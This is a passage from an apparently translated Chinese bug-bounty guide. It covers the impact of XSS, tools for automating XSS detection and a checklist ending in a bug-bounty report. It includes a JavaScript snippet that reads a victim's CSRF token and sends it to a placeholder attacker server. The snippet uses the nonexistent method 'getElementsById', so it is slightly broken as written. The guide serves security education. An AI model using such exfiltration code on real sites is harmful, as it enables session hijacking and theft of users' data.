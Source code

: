 如果受影响的是普通用户群体，XSS 允许攻击者窃取私人数据，如 cookies 和会话令牌。这可以使攻击者劫持任何用户的会话并接管关联的账户。

大多数情况下，XSS 可以用来读取受害者页面上的敏感信息。由于 XSS 攻击期间执行的脚本与目标页面一起运行，该脚本能够访问该页面上的任何信息。这意味着你可以利用 XSS 窃取数据并从中升级你的攻击。你可以通过运行一个将数据发送回攻击者服务器的脚本来实现这一点。例如，这段代码片段读取受害者页面中嵌入的 CSRF 令牌，并将其作为 URL 参数 `token` 发送到攻击者的服务器。如果你能窃取用户的 CSRF 令牌，你就可以利用这些令牌在用户不知情的情况下执行操作，从而绕过网站的 CSRF 保护。（更多关于 CSRF 的内容，请参见第九章。）

```
var token = document.getElementsById('csrf-token')[0];
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://attacker_server_ip/?token="+token, true);
xhr.send(null);
```

XSS 还可以用来动态更改受害者看到的页面，因此你可以用假登录页面替换原页面，诱使用户提供他们的凭证（通常称为 *钓鱼*）。XSS 还允许攻击者自动将受害者重定向到恶意页面，并在伪装成合法站点的同时执行其他有害操作，如安装恶意软件。在报告你发现的 XSS 漏洞之前，务必评估该 XSS 的全部影响，以便在漏洞报告中包含相关信息。

## 自动化 XSS 攻击检测

XSS 攻击检测可能会非常耗时。你可能花费几个小时检查不同的请求参数，却始终找不到任何 XSS 漏洞。幸运的是，你可以使用工具提高工作效率。

首先，你可以使用浏览器开发者工具查找语法错误并排查你的有效载荷问题。我还喜欢使用我的代理搜索工具来搜索服务器响应中的反射输入。最后，如果你正在攻击的程序允许自动化测试，你可以使用 Burp Intruder 或其他模糊测试工具在目标上进行自动 XSS 扫描。我们将在第二十五章讨论这一点。

## 寻找你的第一个 XSS 漏洞！

直接开始寻找你的第一个 XSS 漏洞！选择一个目标并按照本章中介绍的步骤操作：

1.  在应用程序中寻找用户输入的机会。当用户输入被存储并用于构建网页时，测试输入字段是否存在存储型 XSS 漏洞。如果用户输入在 URL 中被反射到最终的网页上，测试是否存在反射型和 DOM XSS 漏洞。

1.  将 XSS 有效载荷插入到你找到的用户输入字段中。可以插入来自网络上的有效载荷列表、一个多语言有效载荷，或者一个通用测试字符串。

1.  通过检查浏览器是否执行了你的 JavaScript 代码来确认有效载荷的影响。或者，在盲 XSS 的情况下，看看你是否能让受害者的浏览器生成一个请求到你的服务器。

1.  如果你无法执行任何有效载荷，尝试绕过 XSS 防护。

1.  使用第二十五章中介绍的技术来自动化 XSS 漏洞的寻找过程。

1.  考虑你发现的 XSS 漏洞的影响：它针对谁？它能影响多少用户？你可以通过它达到什么目的？你能利用所发现的漏洞进行攻击升级吗？

1.  将你的第一个 XSS 漏洞报告提交给漏洞奖励计划！
